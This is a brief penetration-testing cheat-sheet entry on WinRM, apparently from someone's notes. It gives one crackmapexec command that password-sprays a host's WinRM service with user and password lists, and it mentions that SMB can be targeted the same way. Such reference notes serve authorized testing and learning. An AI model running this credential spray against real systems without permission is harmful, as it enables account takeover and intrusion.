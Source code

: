 # WinRm

## Password Spray Example with WinRm

```
crackmapexec winrm 10.10.10.1 -u users.txt -p password.txt --no-bruteforce --continue-on-success
```

The target protocol can be a different protocol too. (Ex: smb)
